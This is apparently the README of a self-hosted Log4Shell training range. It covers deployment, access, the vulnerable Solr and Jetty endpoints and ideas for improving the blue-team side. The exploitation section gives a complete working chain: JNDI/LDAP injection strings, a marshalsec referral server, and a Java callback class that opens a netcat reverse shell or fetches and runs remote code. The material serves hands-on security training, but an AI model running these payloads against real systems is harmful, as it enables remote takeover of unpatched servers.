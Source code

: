 # Deploying the Range

First, deploy the infrastructure.  Check out `terraform/README.md`.

Then, configure it.  Check out `ansible/README.md`.

# Connecting to the Range

A Guacamole server will be available at the domain you setup when deploying the infrastructure.  It'll even have a nice Let's Encrypt cert, so hit it at https.

Alternatively, you can SSH into the hosts.  If you're in the ansible directory you can run something like the following to SSH to them through the jump host:

`eval $(../scripts/get_ssh_cmd.py "kali_host_01")`

That host name comes from the Ansible hosts file - the `get_ssh_cmd.py` builds an SSH command based on the host info...

![Network Map](log4j_range_diagram.png)

# Vulnerable Services

After deploying the range and connecting, you'll have a couple vulnerable services at your disposal.

## Solr

`http://{solr-addr}:8983/solr/admin/cores?anything=${jndi...}`

`http://{solr-addr}:8983/solr/admin/configs?anything=${jndi...}`

`http://{solr-addr}:8983/solr/admin/collections?anything=${jndi...}`

This project uses Solr version 8.8.0 from Docker Hub.  The version of Java is new enough that it requires a system property be misconfigured to work...  It needs `com.sun.jndi.ldap.object.trustURLCodebase=true`.

## Jetty

`http://{solr-addr}/?q=${jndi...}`

`curl -H "User-Agent: ${jndi...}"`

This project uses the vulnerable Jetty server included via [this project](https://github.com/kc0bfv/vulnerableJettyLog4Shell)

# Exploiting Log4J

The Kali box's Desktop README has some tips in it, and the address of the vulnerable server.  First, you'll want to nmap it to make sure you understand what you're going after.  Then you might hit the services in your browser to learn a little more...  After that, setup a callback server and send the exploit.

# Setting up a Callback Server

First - thank you to SANS who I stole this from.  https://gist.github.com/joswr1ght/fb361f1f1e58307048aae5c0f38701e4

From a kali box:

```
cd marshalsec
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://{kali_box_ip}:8080/#Log4JCallback"
```

From that kali box in a separate terminal:

```
python -m http.server 8080
```

Separately, on that kali box, in the same directory your webserver is now running in, drop this code into Log4JCallback.java:

```
public class Log4JCallback {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc {kali_box_ip} 8081 -e /bin/bash");
        } catch (Exception err) {
            err.printStackTrace();
        }
    }
}
```

Now compile that with `javac Log4JCallback.java`, and setup a netcat listener as mentioned in your code:

```
nc -v -l -p 8081
```

Now you've got three listeners setup.  Next you're going to send the message to the vulnerable server - the format is: `${jndi:ldap://{kali_box_ip}:1389/Log4JCallback}`.  The vulnerable server is going to log that jndi string, and Log4J is going to parse it and visit the ldap server on your Kali box at port 1389.  There it will find the marshalsec LDAP server, which will tell it to look for a Java class at a remote location, specifically your Kali box on port 8080.  The class will be requested from your Python webserver on port 8080, and will get executed on load.  That will run the "exec nc" code, calling back with a shell to your listener on port 8081.  You'll see the connections come in - with the last on your netcat port 8081 listener, and that last will be your remote shell.

You can also call back to a metasploit `web_delivery` handler by using a Log4JCallback that runs something like: `java.lang.Runtime.getRuntime().exec(new String[] {"python3", "-c", "import urllib.request; exec(urllib.request.urlopen('http://{kali_box_ip}:8080/{MSFending}').read())"});`

# Improvements Needed

For defense:

1. Blue team routing is too tied in with the red team.  They are both in the same VPC so the subnets default to allowing all connections to/from everywhere...  Putting blue and red in separate VPCs with peering rules between them might allow a more real-world division.
2. Blue team needs a security onion box so they can monitor what's going on.  This may require a specific routing device in the infrastructure too.  The security onion monitoring can get attached to capture all the info headed to a routing device interface.
3. I have no idea how this meets or fails to meet security standards that might be required at my workplace.
